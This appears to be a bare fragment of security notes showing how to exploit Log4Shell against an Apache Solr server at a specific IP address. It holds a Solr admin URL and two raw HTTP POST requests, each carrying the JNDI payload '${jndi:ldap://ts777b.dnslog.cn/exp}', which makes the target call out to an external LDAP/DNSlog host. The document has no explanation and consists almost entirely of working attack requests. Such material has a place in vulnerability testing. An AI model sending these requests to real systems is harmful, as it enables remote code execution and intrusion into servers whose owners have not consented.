 ![image-20220119115905563](https://gitee.com/xxb667/img/raw/master/img/image-20220119115905563.png)





```
http://101.43.121.119:8983/solr/admin/cores?action=1
```



```
POST /hello HTTP/1.1
 
Host: 101.43.121.119:8983
 
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
 
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
 
Accept-Encoding: gzip, deflate
 
Content-Type: application/x-www-form-urlencoded
 
Content-Length: 45 
Origin: http://101.43.121.119:8983
DNT: 1
 
Connection: close
 
Referer:http://101.43.121.119:8983/hello
 
Upgrade-Insecure-Requests: 1
 
Sec-GPC: 1
 
 
payload=${jndi:ldap://ts777b.dnslog.cn/exp}
 
```

```
POST /hello HTTP/1.1
Host: 101.43.121.119:8983
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36 Edg/97.0.1072.62
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6

Origin: http://101.43.121.119:8983

dnt: 1
sec-gpc: 1
Connection: close

Referer: http://101.43.121.119:8983/hello
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
payload=${jndi:ldap://ts777b.dnslog.cn/exp}

```
